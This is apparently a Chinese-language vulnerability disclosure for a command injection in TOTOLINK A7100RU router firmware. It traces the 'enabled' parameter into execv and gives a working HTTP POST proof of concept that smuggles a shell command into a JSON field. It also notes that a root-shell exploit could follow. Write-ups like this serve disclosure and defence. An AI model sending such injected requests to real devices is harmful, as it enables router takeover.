 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps43.jpg) 

 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220720200742666](img/image-20220720200742666.png)

程序通过获取enabled参数中的内容传递给v30，之后将v30带入到Uci_Set_Str_By_Idx函数中

![image-20220720200802387](img/image-20220720200802387.png)

在Uci_Set_Str_By_Idx函数中，程序将a5带入到Uci_Set_Str函数中

![image-20220720200822443](img/image-20220720200822443.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220720200841714](img/image-20220720200841714.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWanIeCfg",
"enabled":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps44.png) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps45.png) 

 